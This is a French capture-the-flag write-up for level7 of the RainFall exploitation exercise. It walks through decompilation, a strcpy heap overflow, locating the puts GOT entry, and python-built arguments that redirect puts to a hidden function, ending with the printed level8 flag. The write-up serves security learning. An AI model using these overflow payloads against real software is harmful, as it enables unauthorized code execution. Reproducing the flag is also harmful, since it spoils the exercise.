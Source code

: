 #### Etape 1 : 
On trouve un executable ./level7 qui segfault lorsqu'on lui passe aucun argument mais qui imprime 2 tilde lorsqu'on lui passe 2 arguments ou plus.
```bash
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aa
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aa aa
~~
level7@RainFall:~$ ./level7 aa aa aaa
~~
``` 

#### Etape 2 : Décompilation / Compréhension
On decide de décompiler le binaire pour comprendre son fonctionnement.(voir source.c)


En analysant le code, on peut voir une fonction m inutilisée qui affiche le contenu de la global c qui elle grace au fgets récupère le contenu du fichier .pass du level8.
```c
__stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
``` 
En examinant le code on peut voir que le main malloc 2 structure en passant par la variable pvVar2, et copie les av[1] et av[2] dans ces structures.
```c
  pvVar2 = (void *)malloc(8);
  pvVar1 = (void *)malloc(8);
  strcpy((char *)pvVar2,av[1]);
  strcpy((char *)pvVar1,av[2]);
```

Comme vous pouvez le voir, il y a un strcpy qui copie av[1] et av[2] dans des structures de 8 octets. Nous voyons donc une ressemblance au level precedent.

#### Etape 3 : Vulnérabilité

Le strcpy n'étant pas limité par un nombre de caractéré écris, il est sujet au buffer overflow.
Nous voyons que pendant le premier appel de strcpy(), on peux reecrire l'adresse utiliser comme destination pour le deuxième strcpy().


#### Etape 4 : Objectif

Comme dans le level5 nous pouvons réecrire l'adresse de la fonction puts par celle de la fonction m.

#### Etape 4 : Informations manquantes

Il me manque l'offset pour déterminé a combien de caractère ce trouvera la nouvelle adresse a écrire
J'ai généré un buffer grâce à : https://wiremask.eu/tools/buffer-overflow-pattern-generator

Pour le strcpy 1 : 
En éxécutant le programme depuis gdb ou ltrace avec le buffer en question j'obtiens une adresse qui correspond au dernier caractère écrit avant le SegFault. Ce qui me permet de les identifier et obtenir la valeur de 20. pour le premier strcpy.

Nous retrouvons dans la Global Offset Table l'adresse de la fonction puts.
```bash
(gdb) disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
=> 0x08048524 <+3>:	and    $0xfffffff0,%esp

[...]

    0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
(gdb) disass 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb)
```
L'adresse de puts est 0x8049928 ou en little endian \x28\x99\x04\x08.
Notre premier exploit prendra la forme suivante :
```bash
$(python -c 'print "a" * 20 + "\x28\x99\x04\x08"')
```

strcpy 2 :
Nous cherchons l'adresse de la fonction m pour  remplacer celle de puts.
avec ghidra ou gdb nous pouvons trouver l'adresse de la fonction m qui est 0x80484f4 ou en little endian \xf4\x84\x04\x08.

Notre second exploit prendra la forme suivante :
```bash
$(python -c 'print "\xf4\x84\x04\x08"')
```



#### Etape 5 : Execution

Il ne reste plus qu'a éxecuter le programme avec les 2 arguments precedents.

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1722763803
level7@RainFall:~$
```